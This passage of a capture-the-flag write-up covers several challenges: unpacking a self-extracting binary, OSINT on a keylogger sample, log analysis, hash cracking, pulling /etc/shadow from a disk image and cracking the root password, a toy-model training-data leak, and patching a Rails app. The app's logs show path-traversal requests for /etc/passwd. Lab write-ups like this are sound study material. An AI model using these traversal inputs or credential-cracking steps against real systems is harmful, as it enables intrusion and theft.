if test x"$quiet" = xn; then
    echo
fi

cd "$tmpdir"
res=0
if test x"$script" != x; then
    if test x"$export_conf" = x"y"; then
        MS_BUNDLE="$0"
        MS_LABEL="$label"
        MS_SCRIPT="$script"
        MS_SCRIPTARGS="$scriptargs"
        MS_ARCHDIRNAME="$archdirname"
        MS_KEEP="$KEEP"
        MS_NOOVERWRITE="$NOOVERWRITE"
        MS_COMPRESS="$COMPRESS"
        MS_CLEANUP="$cleanup"
        export MS_BUNDLE MS_LABEL MS_SCRIPT MS_SCRIPTARGS
        export MS_ARCHDIRNAME MS_KEEP MS_NOOVERWRITE MS_COMPRESS
    fi

    if test x"$verbose" = x"y"; then
        MS_Printf "OK to execute: $script $scriptargs $* ? [Y/n] "
        read yn
        if test x"$yn" = x -o x"$yn" = xy -o x"$yn" = xY; then
            eval "\"$script\" $scriptargs \"\$@\""; res=$?;
        fi
    else
        eval "\"$script\" $scriptargs \"\$@\""; res=$?
    fi
    if test "$res" -ne 0; then
        test x"$verbose" = xy && echo "The program '$script' returned an error code ($res)" >&2
    fi
fi

MS_exec_cleanup

if test x"$keep" = xn; then
    cd "$TMPROOT"
    rm -rf "$tmpdir"
fi
eval $finish; exit $res
```

Immediately following the end of the script, is the obfuscated binary.

I used hexed.it for the actual extraction of the entire script and after a little trial and error, I had the correct sized file extracted.
It's important that the filesize is correct because the script checks the CRC matches and if not, will not extract. I did experience an unexpected archive size
even though the filesize was correct. Adding x00 to the end of the file solved that issue.

So, once makeself.sh is exported properly from the disk image, chmod +x to make it executable.
Running it without any parameters renders the following output:
```
└──╼ $./makeself.sh
Verifying archive integrity...  100%   MD5 checksums are OK. All good.
Uncompressing testlabel  100%
Extracting juicy stuff..
FLAG{s3
its not that easy!
```

Looking through the actual script though, you can see that it should extract a few files, namely start.sh, fun and fun.run
Running
```
./makeself.sh --list
```
actually shows the files that will be extracted
```
└──╼ $./makeself.sh --list
Target directory: dist
-rwxr-xr-x h/h         5829260 2024-03-01 13:05 ./fun
-rwxrwxr-x h/h              11 2024-03-01 13:15 ./start.sh
```

In order to extract the actual files, run the command as
```
makeself.sh --tar xf
```

Now, taking a peek at start.sh will reveal why everything kept getting deleted when being run earlier
```
└──╼ $cat start.sh
./fun
rm *
```

So let's not run start.sh, and take a deeper look at fun
```
└──╼ $file fun
fun: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), statically linked, no section header
```
Running strings on it gives an interesting result at the end
```
└──╼ $strings fun
.........
pydata
UPX!
UPX!
D0jY
```
This file has been packed using UPX
On my system, I had version 3.96 of UPX installed which threw and error when trying to unpack
```
└──╼ $upx -d fun morefun
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
upx: fun: CantUnpackException: need a newer version of UPX
upx: morefun: FileNotFoundException: morefun: No such file or directory

Unpacked 0 files.
```
Fortunately, strings revealed the version used in this binary
```
└──╼ $strings fun | grep UPX
<UPX!
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.22 Copyright (C) 1996-2024 the UPX Team. All Rights Reserved. $
UPX!u
UPX!
UPX!
```
I just downloaded this version of UPX and ran it locally.
```
└──╼ $./upx --version
upx 4.2.4
```

To unpack it, run
```
./upx -d fun
```
Running file on fun now showed
```
└──╼ $file fun
fun: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, stripped
```
It is worth noting now, that for the writeup, I'm doing this well after the fact. Originally, nothing would run because I was missing a couple of key libraries
that just happened to be installed on the busybox image. In order to login to busybox, I had to get the root password. In order to do that, I booted a Ubuntu
instance and attached the qcow2 image to it to pull the /etc/shadow and /etc/passwd files. Once I had those, I used john to grab the root password which turned
out to be 'admin123'

Once logged in, I moved the unpacked 'fun' over to busybox and ran it which gave the result we saw earlier.
```
linux:~# ./fun
Extracting juicy stuff..
FLAG{s3
its not that easy!
```
Eventually I identified the required libraries using ltrace and copied them from busybox to my local parrot VM.
There were ld-musl-x86_64.so.1 and libz.so.1

Once on mine, the binary ran the same way and opened up to a lot more analysis techniques.

I did several did forms of analysis from here on in, both static and dynamic.
I didn't have any luck in Ghidra or IDA, nor did I find anything useful using ltrace or strace.

I also ran binwalk
```
binwalk -e fun
```
and let it extract a heap of files. I had a very brief look at them but at the time, nothing stood out (I didn't know how close I was at this stage)

I continued down a rabbit hole of trying to identify an argument that might reveal the entire flag but this proved fruitless.

Eventually, a little hint led me back to binwalk so I started looking at those extracted files again.

The following script meant I could search through all the files for specific strings.
```
import os
import subprocess

def search_in_files(directory, search_word):
    # Get the list of files in the specified directory
    files = [os.path.join(directory, f) for f in os.listdir(directory) if os.path.isfile(os.path.join(directory, f))]

    # Loop through each file
    for filename in files:
        try:
            # Run the strings command and grep for the search word
            result = subprocess.run(['strings', filename], capture_output=True, text=True)

            # Check if the search word is in the output
            if search_word in result.stdout:
                # Print the filename and the lines containing the search word
                for line in result.stdout.splitlines():
                    if search_word in line:
                        print(f'{filename}: {line}')
        except Exception as e:
            print(f'Could not process file {filename}: {e}')

# Specify the directory and the word to search for
directory = input("Enter the directory path: ")
search_word = input("Enter the word to search for: ")

search_in_files(directory, search_word)
```

Tried FLAG with no luck
Tried easy and low and behold, the file named FFF7 contained this.

Opening FFF7 in nano presented me with
```
�^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^D^@^@^@@^@^@^@sP^@^@^@d^@d^Al^@Z^@d^@d^Al^AZ^Ae^Bd^B�^A^A^@d^CZ^Ce^@�^De^C�^AZ^Ee^A�^Fe^E�^A�^G�^@Z^He^Be^Hd^Ad^D�^B^Y^@�^A^A^@e^Bd^E�^A^A^@d^AS^@)^F�^@^@^@^@Nz^XExtracting juicy stuff..�PH4sICF424WUAA2ZsYWcudHh0AHPzcXSvLjbOSdNNrSgpMkkuycxL1003MEjJSy0uruUCAJHfn8AfAAAA�^G^@^@^@z^Rits not that easy!)   �^Fbase64�^Dgzip�^Eprint�^Dflag�    b64decode�^Ad�
decompress�^Fdecode�^Af�^@r^M^@^@^@r^M^@^@^@z^Ffun.py�^H<module>^C^@^@^@s^N^@^@^@^H^A^H^B^H^A^D^B
^A^N^B^P^A
```
This turned out to be a packed python binary
I then opened it in hexed.it
```
00000000: e300 0000 0000 0000 0000 0000 0000 0000  ................
00000010: 0004 0000 0040 0000 0073 5000 0000 6400  .....@...sP...d.
00000020: 6401 6c00 5a00 6400 6401 6c01 5a01 6502  d.l.Z.d.d.l.Z.e.
00000030: 6402 8301 0100 6403 5a03 6500 a004 6503  d.....d.Z.e...e.
00000040: a101 5a05 6501 a006 6505 a101 a007 a100  ..Z.e...e.......
00000050: 5a08 6502 6508 6401 6404 8502 1900 8301  Z.e.e.d.d.......
00000060: 0100 6502 6405 8301 0100 6401 5300 2906  ..e.d.....d.S.).
00000070: e900 0000 004e 7a18 4578 7472 6163 7469  .....Nz.Extracti
00000080: 6e67 206a 7569 6379 2073 7475 6666 2e2e  ng juicy stuff..
00000090: da50 4834 7349 4346 3432 3457 5541 4132  .PH4sICF424WUAA2
000000a0: 5a73 5957 6375 6448 6830 4148 507a 6358  ZsYWcudHh0AHPzcX
000000b0: 5376 4c6a 624f 5364 4e4e 7253 6770 4d6b  SvLjbOSdNNrSgpMk
000000c0: 6b75 7963 784c 3130 3033 4d45 6a4a 5379  kuycxL1003MEjJSy
000000d0: 3075 7275 5543 414a 4866 6e38 4166 4141  0uruUCAJHfn8AfAA
000000e0: 4141 e907 0000 007a 1269 7473 206e 6f74  AA.....z.its not
000000f0: 2074 6861 7420 6561 7379 2129 09da 0662   that easy!)...b
00000100: 6173 6536 34da 0467 7a69 70da 0570 7269  ase64..gzip..pri
00000110: 6e74 da04 666c 6167 da09 6236 3464 6563  nt..flag..b64dec
00000120: 6f64 65da 0164 da0a 6465 636f 6d70 7265  ode..d..decompre
00000130: 7373 da06 6465 636f 6465 da01 66a9 0072  ss..decode..f..r
00000140: 0d00 0000 720d 0000 007a 0666 756e 2e70  ....r....z.fun.p
00000150: 79da 083c 6d6f 6475 6c65 3e03 0000 0073  y..<module>....s
00000160: 0e00 0000 0801 0802 0801 0402 0a01 0e02  ................
00000170: 1001                                     ..
``` 

Taking a bit more of a look into these packed binaries here (https://gist.github.com/mate-h/fc8f21bd3ce9e3ad1737b85f795bab07)
I could see that it was missing the magic bytes for the header but for these files, it's not as easy as just adding the same as shown on this site.
This then took me back to looking into the base_library.zip file that is extracted during execution to the tmp folder (this is something that did stand out
with GDB and Radare2). Extracting that zip revealed a lot of pyc files. 
```
A PYC file is a compiled output file generated from source code written in Python programming language.
```

Now, checking several of these in hexed.it revealed a common magic byte header that I had to add before the start of the file header (in this case it's e3000000)
All I had to do was insert the following 16bytes before e3
```
610d 0d0a 0100 0000 0000 0000 0000 0000
```
Before going any further, it's worth noting that trying to then decompile this binary with missing magic bytes results in an error
NOTE: I tried both decompyle3 and uncompyle6 with no luck however pycdc worked a charm
```
└──╼ $./pycdc ../../extracted/FFF7
Bad MAGIC!
Could not load file ../../extracted/FFF7
```
So, back to fixing the magic bytes, saving it as fun.pyc, and then running pycdc again
```
└──╼ $./pycdc ../../fun.pyc
# Source Generated with Decompyle++
# File: fun.pyc (Python 3.9)

import base64
import gzip
print('Extracting juicy stuff..')
flag = 'H4sICF424WUAA2ZsYWcudHh0AHPzcXSvLjbOSdNNrSgpMkkuycxL1003MEjJSy0uruUCAJHfn8AfAAAA'
d = base64.b64decode(flag)
f = gzip.decompress(d).decode()
print(f[:7])
print('its not that easy!')
```

The standout line of code here is
```
print(f[:7])
```
I just deleted the 7 then created a new solve.py file with the following:
```
# Source Generated with Decompyle++
# File: fun.pyc (Python 3.9)

import base64
import gzip
print('Extracting juicy stuff..')
flag = 'H4sICF424WUAA2ZsYWcudHh0AHPzcXSvLjbOSdNNrSgpMkkuycxL1003MEjJSy0uruUCAJHfn8AfAAAA'
d = base64.b64decode(flag)
f = gzip.decompress(d).decode()
print(f[:])
print('its not that easy!')
```

Ran this now as voila, the flag
```
└──╼ $python3 solve.py
Extracting juicy stuff..
FLAG{s3lf-extr4cting-g00dness}

its not that easy!
```

:+1: FLAG{s3lf-extr4cting-g00dness}
<hr>

### Book Crumbs
Description
I found this suspicious golang binary on my linux server.. can you find out who wrote it?

malware hash: 7ce5fe5f21c7d3305b7cf9b7d8f052902e46b6160ce49aa1e91bcfbc09179ba5

Flag format: FLAG{th1s-1s-y0ur-fl4g}

Solution:
https://www.hybrid-analysis.com/sample/7ce5fe5f21c7d3305b7cf9b7d8f052902e46b6160ce49aa1e91bcfbc09179ba5/65dd4150db0240951f0cabf4
File Details

keylogger

Filename
keylogger

Size
2.3MiB (2397069 bytes)

Type
elf 64bits executable

Description
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped

Architecture
LINUX

SHA256 - 7ce5fe5f21c7d3305b7cf9b7d8f052902e46b6160ce49aa1e91bcfbc09179ba5

MD5 - 673f5474789fa16ad14d897fd95509bc

SHA1 - fde4f5c3e4469f9350d2cb108b5e40d9f5134af1

ssdeep - 24576:XCi6+i1wJ2k6UZcGpQ18GUMQf5xLe6YDCjmPIxt6cfilnn5C1oRajZDlv1:yivi1wJ2k6Pky6MjICfZ5MoEjn1 


https://www.virustotal.com/gui/file/7ce5fe5f21c7d3305b7cf9b7d8f052902e46b6160ce49aa1e91bcfbc09179ba5/details
MD5 - 673f5474789fa16ad14d897fd95509bc 
SHA-1 - fde4f5c3e4469f9350d2cb108b5e40d9f5134af1 
SHA-256 - 7ce5fe5f21c7d3305b7cf9b7d8f052902e46b6160ce49aa1e91bcfbc09179ba5 
Vhash - cebbaf2c8ae7d1b50552e9a860c0fc96 
SSDEEP - 24576:XCi6+i1wJ2k6UZcGpQ18GUMQf5xLe6YDCjmPIxt6cfilnn5C1oRajZDlv1:yivi1wJ2k6Pky6MjICfZ5MoEjn1 
TLSH - T150B58C477CE058AAC0AA93328EA651A27B71BC490B7127D73E50B3783F327D45E76718 
File type - ELF executable 
Magic - ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped 
Telfhash - t1f01373446cf60e5669da1377ac3805c9137fe00f156879996e68c73939af088293bb3a 
TrID - ELF Executable and Linkable format (Linux) (50.1%)   ELF Executable and Linkable format (generic) (49.8%) 
DetectItEasy - ELF64   Operation system: Unix [EXEC AMD64-64]   Compiler: Go (1.10.x-1.17.x) [EXEC AMD64-64] 
File size - 2.29 MB (2397069 bytes)
History
First Submission - 2024-02-27 01:46:57 UTC 
Last Submission - 2024-02-27 01:46:57 UTC 
Last Analysis - 2024-03-15 20:41:42 UTC


github.com/MarinX/keylogger
github.com/sirupsen/logrus
pathgithub.com/hotslytherin/keyloggermodgithub.com/hotslytherin/keylogger(devel)depgithub.com/MarinX/keyloggerv0.0.0-20210528193429-a54d7834cc1ah1:ItKXWegGGThcahUf+ylKFa5pwqkRJofaOyeGdzwO2mM=depgithub.com/sirupsen/logrusv1.9.3h1:dueUQJ1C2q9oE3F7wvmSGAaVtTmUizReu6fjN8uqzbQ=depgolang.org/x/sysv0.0.0-20220715151400-c0bba94af5f8h1:0A+M6Uqn+Eje4kHMK80dtF3JCXC4ykBgQG4Fe06QRhQ=build-buildmode=exebuild-compiler=gcbuild-trimpath=truebuildCGO_ENABLED=0buildGOARCH=amd64buildGOOS=linuxbuildGOAMD64=v1buildvcs=gitbuildvcs.revision=a54d7834cc1a2d37536127ab438e6084887bc55abuildvcs.time=2021-05-28T19:34:29Zbuildvcs.modified=true

Malware strings reveal github page of hotslytherin - https://github.com/hotslytherin/hotslytherin

https://api.github.com/users/hotslytherin/events/public

reveals email - admin@expelliarmus.pro and name of Sebastian

Did a DNS lookup of expelliarmus.pro at https://www.nslookup.io/

Which revealed the flag

:+1: FLAG{wh0-1s-th1s-h4x0r}
<hr>

### Dead Turkey (FIRST BLOOD)
Description - Our team have been getting reports from users that their accounts have been hacked. Multiple IP addresses from those hacked users were the same.. I wonder if there's been a credential stuffing
attack on our website. We'll send you the logs.. let us know if you can find anything. 
Flag format: FLAG{Ent3r_Y0ur_Fl4g_h3r3}

Solution:
Imported into excel and looked at the data

Curiosity made me wonder what FLAG looked like in decimal and it was 70 76 65 71 which happened to be an IP address

Ended up filterout out 302 and GET requests and manipulating the remaing 5 IPs for the flag


70 76 65 71 123 53 116 117 102 102 49 110 103 95 121 117 109 125

:+1: FLAG{5tuff1ng_yum}
<hr>

### First 8 bytes
Description - I ran some random program on the internet and it started chomping off the first 8 bytes of every one of my files... Can you recover this precious flag for me? 
Flag Format: FLAG{here-is-the-flag!}

Corrupt zip file

Opened in hexed.it and fixed magic bytes (first 8 bytes)

Made them 50 4B 03 04 and exported the file

Opened it and opened flag.txt

:+1: FLAG{its-not-a-flag-until-it-is-a-flag}
<hr>

### Forum troubles
Description - As a threat intelligence officer at the ministry, you've been tasked to infiltrate the recently resurfaced XSRF forum after the CSRF take down.

Feel free to create new accounts. Just be careful.

The end goal is to try and take over an existing account.. that way you seem more legit.

Challenge IP: 192.168.88.100

FLAG format: FLAG{ent3r_y0ur_fl49}

Solution:
Created a new user (user/password) and logged in

The home page presents the forum and any posts that have been made. The one of interest was under Selling, title 'CSRF forum breach.csv'
There was a link inside that post to a pastebin sit that hosted a long list of exposed credentials.
In there was a user on the site called 'Stalk'
Plugged the hash into crackstation and it returned the password 'genius'

Logged in as 'Stalk' and noticed 1 message in the inbox.
When that was opened, there was a message about requesting to be removed from the password dump as well as the flag.

:+1: FLAG{f0rums_4r3_c00l}
<hr>

### Incorrect buffer
Description - I'm making a small web server in C. The default response actually renders in Firefox!

But Curl doesn't like it for some reason and says it received an HTTP/0.9 response or something. I am confused.

Also, the 404 response doesn't seem right.

Can you fix those bugs for me? Just host that server on your local machine using

ncat -e ./server -nklvp 80

The flag format would be like FLAG{your_flag_here}, and the checking server is on http://192.168.88.100:5000.

When you've patched the bugs, it'll send you the flag via a HTTP request to your server. Oh, and make sure I can read your server binary with a GET request to /server (the functionality to serve files is already built in, you just need to fix up the bugs).

The code supplied was:
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>

/**
 * stdin based web server
 * use something like xinetd, ncat or socat to bind to listen port
 **/

#define VERSION "build-8191827656789"

void write_http_response_header(int status, char* status_str, char* content_type, int content_length) {
	// also ends it
	printf("HTTP/1.1 %i %s\r\nServer: my-server/%s\r\nContent-Type: %s\r\nContent-Length: %i\r\n", status, status_str,VERSION, content_type, content_length);
}

int main() {
	char request[320]; // uri should not be more than 255 bytes anyway
	fgets(request, 320, stdin);
	// get method and request path
	char version[3];
	char url[256];
	char method[20];

	sscanf(request, "%s %s HTTP/%s\n", method, url, version);
	fprintf(stderr, "method:%s url:%s version:%s\n", method,url,version);

	char* filename = url + 1;

	if (strcmp(url, "/") == 0) { //index
		// serve index.html if it exists, otherwise just print 
		if (access("index.html", F_OK ) != -1 ) {
			struct stat filestat;
		    stat("index.html", &filestat);
		    unsigned char file_buffer[filestat.st_size];
		    FILE* file_to_serve = fopen("index.html", "r");
		    fread(file_buffer, filestat.st_size, 1, file_to_serve);
		    write_http_response_header(200, "OK", "text/html", filestat.st_size);
		    fwrite(file_buffer, filestat.st_size,1, stdout);
		} else {
			printf("<h2>Welcome!</h2>There's nothing here.");
		}
	} else if (access(filename, F_OK ) != -1 ) {

	    // if local file exists, serve it
	    struct stat filestat;
	    stat(filename, &filestat);
	    unsigned char file_buffer[filestat.st_size];
	    FILE* file_to_serve = fopen(filename	, "r");
	    fread(file_buffer, filestat.st_size, 1, file_to_serve);
	    write_http_response_header(200, "OK", "text/html", filestat.st_size);
	    fwrite(file_buffer, filestat.st_size,1, stdout);

	} else {
	    // file doesn't exist
	    write_http_response_header(404, "Not found", "text/plain", 10);
	    printf("404 NOT FOUND");
	}

}
```
Solution:
Asked ChatGPT to fix the code and it got most of the way with a few minor tweaks, this was the final code:
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>

#define VERSION "build-8191827656789"

void write_http_response_header(int status, char* status_str, char* content_type, int content_length) {
    printf("HTTP/1.1 %i %s\r\nServer: my-server/%s\r\nContent-Type: %s\r\nContent-Length: %i\r\n\r\n", status, status_str,VERSION, content_type, content_length);
}

int main() {
    char request[320];
    fgets(request, 320, stdin);
    char version[10]; // Changed from 3 to 10
    char url[256];
    char method[20];

    sscanf(request, "%s %s HTTP/%s\n", method, url, version);
    fprintf(stderr, "method:%s url:%s version:%s\n", method, url, version);

    char* filename = url + 1;

    if (strcmp(url, "/") == 0) { //index
        if (access("index.html", F_OK ) != -1 ) {
            struct stat filestat;
            stat("index.html", &filestat);
            unsigned char* file_buffer = malloc(filestat.st_size); // Dynamically allocate memory for file_buffer
            FILE* file_to_serve = fopen("index.html", "r");
            fread(file_buffer, filestat.st_size, 1, file_to_serve);
            write_http_response_header(200, "OK", "text/html", filestat.st_size);
            fwrite(file_buffer, filestat.st_size, 1, stdout);
            free(file_buffer); // Free dynamically allocated memory
            fclose(file_to_serve); // Close file pointer after use
        } else {
            write_http_response_header(404, "Not Found", "text/plain", 38); // Corrected content length
            printf("<h2>Welcome!</h2>There's nothing here.");
        }
    } else if (access(filename, F_OK ) != -1 ) {
        struct stat filestat;
        stat(filename, &filestat);
        unsigned char* file_buffer = malloc(filestat.st_size); // Dynamically allocate memory for file_buffer
        FILE* file_to_serve = fopen(filename, "r");
        fread(file_buffer, filestat.st_size, 1, file_to_serve);
        write_http_response_header(200, "OK", "text/html", filestat.st_size);
        fwrite(file_buffer, filestat.st_size, 1, stdout);
        free(file_buffer); // Free dynamically allocated memory
        fclose(file_to_serve); // Close file pointer after use
    } else {
        write_http_response_header(404, "Not Found", "text/plain", 13);
        printf("404 NOT FOUND");
    }

    return 0;
}
```
Which rendered the following in the server logs:
```
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.107.0.11:63275.
method:GET url:/ version:1.1
Ncat: Connection from 10.107.0.11:41683.
method:GET url:/lksjdklfanskdnckajsdfj_doesn_exit_1585 version:1.1
Ncat: Connection from 10.107.0.11:55298.
method:GET url:/server version:1.1
Ncat: Connection from 10.107.0.11:39615.
method:GET url:/a.out version:1.1
Ncat: Connection from 10.107.0.11:58461.
method:GET url:/FLAG%7Bhello_server_how_are_you%7D version:1.1

```
:+1: FLAG{hello_server_how_are_you}
<hr>

### LARGE FLAG MODEL
Description - I recently started building my own LLM... I am not sure what I'm doing yet, but I managed to get some sort of next-token prediction algorithm working with
only one word using some data from Wikipedia pages. I've heard all about security concerns on leaking training data, so for testing, I've hidden a flag in the training data to see if you can find it. Flag
Format: FLAG{your_example_flag_goes_here}

Code provided
```
#!/usr/bin/env python3

import sys
import random
import pickle
import time

def predict(word_sequence, model, sequence_length=8):
    '''
    sequence length defines the maximum limit of words to spit out
    '''
    try:
        if len(word_sequence) >= sequence_length:
            return word_sequence

        start_word = word_sequence[-1]
        
        # Check if start_word exists in the model
        if start_word not in model:
            return None

        candidates = model[start_word]
        # print(candidates)
        candidates_sorted = sorted(candidates, key=lambda x: x[1], reverse=True)

        most_probable = candidates_sorted[random.randrange(0, min(3, len(candidates_sorted)))] # pick between top 3 candidates
        word_sequence.extend(most_probable[0])

        return predict(word_sequence, model, sequence_length)
    except RecursionError:
        print("Recursion limit exceeded. Skipping word.")
        return word_sequence

def main():
    try:
        model_file = open('model.pkl', 'rb')
        model = pickle.load(model_file)
        model_file.close()
    except FileNotFoundError:
        print("Error: Model file not found.")
        return

    try:
        words_file = open('words.txt', 'r')
        words = words_file.read().split()
        words_file.close()
    except FileNotFoundError:
        print("Error: Words file not found.")
        return

    # Set maximum recursion depth
    sys.setrecursionlimit(3000)  # Adjust this limit as needed

    for word in words:
        print("Prompt:", word)
        prediction = predict([word], model)
        if prediction is not None:
            print(' '.join(prediction))
            print()
        time.sleep(0.1)  # Sleep for one second between each word

if __name__ == "__main__":
    main()
```
Solution.
Extracted all proper words from model.pkl file to a file called words.txt
```
import re

# Open the input file
with open('temp.txt', 'r') as file:
    # Read the single line of data
    line = file.readline()

    # Use regular expression to find words enclosed in single quotes
    words = re.findall(r"'(.*?)'", line)

# Define a function to strip non-alphabetic characters from a word
def strip_non_alpha(word):
    return re.sub(r'[^a-zA-Z]', '', word)

# Strip non-alphabetic characters and leading/trailing whitespace from each word
stripped_words = [strip_non_alpha(word.strip()) for word in words]

# Open the output file to write the extracted words
with open('words.txt', 'w') as output_file:
    # Write each word (after stripping non-alphabetic characters and whitespace) to the output file
    for word in stripped_words:
        output_file.write(word + '\n')

print("Words extracted, stripped of non-alphabetic characters and leading/trailing whitespace, and written to words.txt")

```
Modified the original source code to then read each line of word.txt and enter that at the prompt
```
#!/usr/bin/env python3

import sys
import random
import pickle


def predict(word_sequence, model, sequence_length=8, max_depth=20):
    '''
    sequence length defines the maximum limit of words to spit out
    '''
    if len(word_sequence) >= sequence_length or max_depth <= 0:
        return word_sequence

    start_word = word_sequence[-1]
    candidates = model.get(start_word, [])  # If start_word is not in the model, return an empty list
    if not candidates:  # If there are no candidates for the start word, return the sequence as is
        return word_sequence

    candidates_sorted = sorted(candidates, key=lambda x: x[1], reverse=True)

    most_probable = candidates_sorted[random.randrange(0, min(10, len(candidates)))]  # Pick between top 3 candidate>
    word_sequence.extend(most_probable[0])

    return predict(word_sequence, model, sequence_length, max_depth - 1)


model_file = open('model.pkl', 'rb')
model = pickle.load(model_file)
model_file.close()

# Read words from words.txt
with open('words.txt', 'r') as words_file:
    for word in words_file:
        prompt = word.strip()
        if prompt:  # Ensure the prompt is not empty
            print("prompt:", prompt)  # Print the word as the prompt
            print(' '.join(predict([prompt], model)))
```

Executed that and wrote to results.txt
```
python3 solve.py > results.txt
```

Used grep to try and find 'FLAG' but that would have been too easy.
Grepping for flag idientified some interesting output
```
very hidden flag starts with all uppercase characters
consumer electronics.[citation needed] the very hidden flag starts with all uppercase
consumer electronics.[citation needed] the very hidden flag starts with
outside the range of most consumer electronics.[citation needed] the very hidden flag starts
hidden flag starts with all uppercase characters (including blanks
flag starts with all uppercase characters flag, then curly
flag starts with all uppercase characters is the
hidden flag starts with all you need". this
flag starts with all you need". model training took "14
flag starts with all uppercase characters flag, then curly
security concern. these are hidden flag starts with all uppercase characters flag, then
hidden flag starts with a context window larger
hidden flag starts with all uppercase characters flag, then curly brackets,
security concern. these are hidden flag starts with all uppercase
hidden flag starts with a model is the
hidden flag starts with all you need". model
jack police flag starts with all uppercase characters
jack police flags civil flag starts with a
jack police flag starts with all uppercase characters

```
Slowly working through different greps and it resulted in this
```
very hidden flag starts with all uppercase characters flag starts with all uppercase characters flag, 
then curly brackets, then the lowercase words parrots are loud but wisdom is silent joined by 
underscore and ends with a closing bracket.
```

:+1: FLAG{parrots_are_loud_but_wisdom_is_silent}
<hr>

### Markdown editor
Description - I made a markdown editor to learn Ruby on Rails. I shared it with my friends and they all laughed at me saying that there were critical vulnerabilities everywhere. They were able to read sensitive files and break into my server... Can you patch the code for me?

The code along with Dockerfile has been provided to help you set up the app for testing.

After patching, give the check server on port 80 the URL to the hosted instance of your patched app, and my friends will run their hacks and send you the flag if it's patched.

Flag Format: FLAG{words-separated-by-dashes}

Solution:

The docker file did not compile initially so I had chatGPT analyse it and repair it
```
# Make sure RUBY_VERSION matches the Ruby version in .ruby-version and Gemfile
ARG RUBY_VERSION=3.2.3
FROM registry.docker.com/library/ruby:$RUBY_VERSION-slim as base

# Rails app lives here
WORKDIR /rails

# Set production environment
ENV RAILS_ENV="production" \
    BUNDLE_DEPLOYMENT="1" \
    BUNDLE_PATH="/usr/local/bundle" \
    BUNDLE_WITHOUT="development"

# Throw-away build stage to reduce size of final image
FROM base as build

# Install packages needed to build gems
RUN apt-get update && \
    apt-get install -y --no-install-recommends build-essential git libvips pkg-config

# Install application gems
COPY Gemfile Gemfile.lock ./
RUN bundle install && \
    rm -rf ~/.bundle/ "${BUNDLE_PATH}"/ruby/*/cache "${BUNDLE_PATH}"/ruby/*/bundler/gems/*/.git && \
    bundle exec bootsnap precompile --gemfile

# Copy application code
COPY . .

# Precompile bootsnap code for faster boot times
RUN bundle exec bootsnap precompile app/ lib/

# Precompiling assets for production without requiring secret RAILS_MASTER_KEY
RUN SECRET_KEY_BASE_DUMMY=1 ./bin/rails assets:precompile

# Final stage for app image
FROM base

# Install packages needed for deployment
RUN apt-get update && \
    apt-get install -y --no-install-recommends curl libsqlite3-0 libvips pandoc groff ghostscript && \
    rm -rf /var/lib/apt/lists/*

# Copy built artifacts: gems, application
COPY --from=build /usr/local/bundle /usr/local/bundle
COPY --from=build /rails /rails

# Run and own only the runtime files as a non-root user for security
RUN useradd -m rails && \
    chown -R rails:rails /rails

USER rails

# Entrypoint prepares the database.
ENTRYPOINT ["/rails/bin/docker-entrypoint"]

# Start the server by default, this can be overwritten at runtime
EXPOSE 3000
CMD ["./bin/rails", "server"]

```

Once that compiled, the checkserver response threw the error indicating it was still vulnerable (file inclusion)

Again, I asked chatGPT to look at the .rb file in app/controllers named application_controller.rb and address the issue

This is what is gave me
```
class ApplicationController < ActionController::Base
  def application
    render "layouts/application"
  end

  def upload
    content = params[:note]

    random_filename = SecureRandom.hex(10) + '.md'

    File.open(upload_path(random_filename), 'wb') do |file|
      file.write(content.read)
    end

    render plain: "#{random_filename}"
  end

  def download
    filename = params[:filename]

    if valid_filename?(filename)
      send_file(upload_path(filename), filename: filename, type: "text/plain")
    else
      render plain: "Invalid filename", status: :unprocessable_entity
    end
  end

def convert_to_pdf
  filename = params[:filename]

  if valid_filename?(filename)
    pdf_filename = "#{filename}.pdf"
    pdf_file_path = Rails.root.join('public', 'uploads', pdf_filename)

    command = "pandoc --pdf-engine=pdfroff -f markdown -t pdf #{upload_path(filename).to_s.shellescape} -o #{pdf_file_path.to_s.shellescape}"
    system(command)

    if File.exist?(pdf_file_path)
      send_file(pdf_file_path, filename: pdf_filename, type: "application/pdf")
    else
      render plain: "Conversion failed", status: :unprocessable_entity
    end
  else
    render plain: "Invalid filename", status: :unprocessable_entity
  end
end

  private

  def upload_path(filename)
    Rails.root.join('public', 'uploads', filename)
  end

  def valid_filename?(filename)
    filename =~ /\A[\w.-]+\z/
  end
end
```

Ran the docker build again then ran the docker and tested it and it spat out the flag.

```
I, [2024-04-14T04:16:00.652204 #73]  INFO -- : [7448c442-4c28-43f1-bb93-c6b7ae48bd19] Started GET "/download?filename=../../../../../../../../../../../etc/passwd" for 103.109.113.220 at 2024-04-14 04:16:00 +0000
I, [2024-04-14T04:16:00.676410 #73]  INFO -- : [7448c442-4c28-43f1-bb93-c6b7ae48bd19] Processing by ApplicationController#download as */*
I, [2024-04-14T04:16:00.676559 #73]  INFO -- : [7448c442-4c28-43f1-bb93-c6b7ae48bd19]   Parameters: {"filename"=>"../../../../../../../../../../../etc/passwd"}
I, [2024-04-14T04:16:00.712580 #73]  INFO -- : [7448c442-4c28-43f1-bb93-c6b7ae48bd19] Completed 422 Unprocessable Entity in 36ms (Views: 24.2ms | ActiveRecord: 0.0ms | Allocations: 576)
I, [2024-04-14T04:16:00.807727 #11]  INFO -- : [41431e33-8db1-4fde-925f-9762e9acb028] Started GET "/download?filename=../../app/views/layouts/application.html.erb" for 103.109.113.220 at 2024-04-14 04:16:00 +0000
I, [2024-04-14T04:16:00.835160 #11]  INFO -- : [41431e33-8db1-4fde-925f-9762e9acb028] Processing by ApplicationController#download as */*
